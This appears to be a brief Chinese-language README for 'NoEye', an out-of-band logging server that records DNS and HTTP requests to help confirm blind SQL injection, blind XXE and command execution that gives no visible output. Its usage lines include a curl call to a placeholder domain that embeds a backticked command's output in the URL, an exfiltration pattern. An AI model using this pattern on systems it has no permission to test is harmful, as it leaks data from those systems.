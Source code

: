 # [NoEye](http://www.jianshu.com)
记录DNS记录和HTTP请求

>碰上盲注 盲xxe 无回显命令执行再也不用怕了

## 简单用法

>curl yourdomain/user/payload
>curl yourdomain/user/`command`


```
个人测试学习所用，目前只有HTTP记录，有兴趣可以改造一下
```

